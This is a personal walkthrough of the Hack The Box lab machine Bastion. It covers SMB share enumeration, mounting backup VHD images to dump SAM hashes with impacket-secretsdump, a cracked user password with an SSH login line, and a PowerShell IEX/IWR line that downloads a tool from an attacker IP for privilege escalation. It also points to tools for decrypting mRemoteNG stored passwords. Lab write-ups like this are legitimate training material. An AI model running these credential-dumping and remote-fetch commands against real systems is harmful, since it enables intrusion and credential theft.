

# Bastion Helped-Through

Name: Bastion
Date:  11/5/2026
Difficulty:  Easy
Goals:  
- Guided mode
Learnt:
Beyond Root:
- None
- [[Bastion-Notes.md]]
- [[Bastion-CMD-by-CMDs.md]]


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


`nmap` scanning for TCP port produced this outcome: 


It is a bit of weird box with SSH on a Windows machine. Check the first the RPC access 


Due diligence served and now onto SMB.


Enumerating the Backups SMB share further... 

.. reveals that this share was used to store backup images of a Windows machine

There are two .vhd files. Although I have never mounted to a machine like this I have used impacket to dump passwords.


Some dorking around the subject lead to spoiling the machine, also the PwnBox do not have the memory to do this so this machine turned shiftly into a Helped-Through.
The problem I then faced is the actual support pages need to do this are not easy, but also this box showcases a weird case like this. So this sort of also becomes a Helped-Through be definition 
- [VK9](https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/) Kali version
```bash
sudo apt install libguestfs-tools guestmount -y
# List
7z l $file.vhd
# Extract
7z x $file.vhd
# Create directory and mount 
sudo mkdir /mnt/vhd
ls -ld /mnt/vhd
guestmount –add file.vhd –inspector –ro -v /mnt/vhd
sudo guestmount –add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd –inspector –ro -v /mnt/vhd
cd /mnt/vhd
sudo su
cd /mnt/vhd
ls
cd /Windows/System32/config
cp SAM SYSTEM /tmp
impacket-secretsdump -sam SAM -system SYSTEM local
```

Because I only have access to the PwnBox at the moment I at least learnt how to this once I get a full setup back. From the [0xdf writeup](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html) I grabbed the hash because I cannot do that part.

```
L4mpje 26112010952d963c8dc4217daec986d9 : bureaulampje
ssh L4mpje@IP
```

Using crackstation on the NTML hash of the user decrypts the hash as `bureaulampje`


## Privilege Escalation

Got WinPEAS on the machine with the following:
```powershell
IEX(IWR http://10.10.14.51:8443/w.exe -Outfile w.exe)
```

After reading through the output knowing that both there is WinRM in some form that is unusable with `evil-winrm`, which I did try and the Guided Mode claiming there is a 'remote connection management tool'. 
```powershell
# List all 32-Bit applications
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Here is the output:


Passwords in Configuration files seems ancient now-a-days 


For some reason the Powershell is not visible with PwnBox 


Switching back to regular shell to find the configuration file

And here is the encrypted password


I hate doing these, but always stumble so I will stumble along just for the learning


Tried messing around with this approach from a recent THM and HTB related problem. From reading [0xdf writeup](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html) there used to be a Metapsloit module that would do this also the was [mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt). I think this makes me want to prepare for HTB Seasons again and find a group again. I won't paste the password in the strange chance that someone reads this.

There are multiple solutions, I would if I had a better setup used the configuration file with mRemoteRG on a window box to 
https://0xdf.gitlab.io/2019/09/07/htb-bastion.html#privesc-to-administrator
https://cosine-security.blogspot.com/2011/06/stealing-password-from-mremote.html
https://packetstorm.news/files/id/126309
## Post-Root-Reflection  

I need a better setup again.


## Beyond Root

None, get a better setup